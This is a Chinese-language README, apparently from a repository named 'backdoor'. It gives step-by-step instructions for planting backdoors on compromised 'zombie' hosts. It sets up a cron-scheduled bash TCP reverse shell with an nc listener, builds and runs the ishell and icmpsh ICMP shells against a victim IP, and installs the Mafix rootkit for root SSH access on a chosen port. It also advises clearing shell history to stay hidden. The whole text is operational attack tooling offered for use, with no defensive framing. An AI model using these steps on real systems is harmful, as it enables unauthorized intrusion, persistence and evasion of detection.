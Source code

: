 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999
